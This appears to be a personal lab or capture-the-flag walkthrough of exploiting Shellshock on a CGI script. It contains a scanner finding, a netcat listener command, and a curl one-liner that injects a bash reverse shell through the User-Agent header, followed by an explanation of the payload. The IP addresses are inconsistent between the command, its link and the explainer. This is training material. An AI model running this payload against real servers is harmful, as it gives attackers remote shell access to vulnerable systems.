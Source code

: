 + /cgi-bin/test.sh: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true.

+ /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278

  
  
  

#Weaponize

Need to set up a listener

nc -nlvp 4444

  

and check my ip for the rev shell code

ip addr | grep tun0                                                                                   13:43:58

9: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500

    inet 192.168.45.153/24 scope global tun0

  

Shellshock manual exploitation code. Remember to switch to double quotes for less problems.

curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.45.153/4444 0>&1" [http://192.168.162.87/cgi-bin/test.sh](http://192.168.124.87/cgi-bin/test.sh)

AI explainer

In the context of the Shellshock exploit, () { :; }; is the beginning of a function definition in Bash. However, the purpose of this particular function is not to perform any useful tasks, but rather to exploit the vulnerability in Bash.

  

Here's a more detailed explanation of each component:

1.     (): This defines the start of a function declaration in Bash.
    
2.     { :; }: Within the function, the colon (:) is a placeholder for an empty command. The semicolon (;) separates commands within the function. In this case, the function has an empty command, which means it doesn't perform any real action. Its purpose is to deceive Bash into thinking that it has a valid function definition.
    

  

The combination of () { :; }; tricks the vulnerable Bash shell into accepting the rest of the payload as valid code.

  

The rest of the payload after the function definition (/bin/bash -i >& /dev/tcp/192.168.45.254/4444 0>&1) is the actual command that is executed within the context of the exploited Bash shell.

  

This payload attempts to open a reverse shell connection to the IP address 192.168.45.254 on port 4444. It redirects the input and output streams to establish a network connection between the target system and the attacker's system.
